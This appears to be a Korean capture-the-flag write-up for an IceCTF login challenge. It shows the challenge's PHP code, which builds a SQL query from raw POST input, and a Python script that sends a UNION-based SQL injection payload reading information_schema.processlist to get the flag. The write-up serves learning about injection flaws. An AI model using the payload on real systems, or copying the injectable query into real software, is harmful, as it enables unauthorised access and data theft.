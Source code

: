 ============================================================================================================
[IceCTF] Solve
============================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="post_data: {username=' union select 1,2,info from information_schema.processlist-- -",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
    }

|

소스 분석
================================================================================================================

- POST 파라미터: username, password
- String
- information_schema.processlist

.. code-block:: php

    <?php
    include "config.php";
    $con = mysqli_connect($MYSQL_HOST, $MYSQL_USER, $MYSQL_PASS, $MYSQL_DB);
    $username = $_POST["username"];
    $password = $_POST["password"];
    $query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
    $result = mysqli_query($con, $query);

    if (mysqli_num_rows($result) !== 1) {
      echo "<h1>Login failed.</h1>";
    } else {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
    }

    ?>

|

login success
================================================================================================================


.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "http://miners.vuln.icec.tf/login.php"

    payload = {
        "username": "' union select 1,2,info from information_schema.processlist-- -",
        "password": "1",
    }

    r = requests.post(url, data=payload, verify=False)

    print r.content

|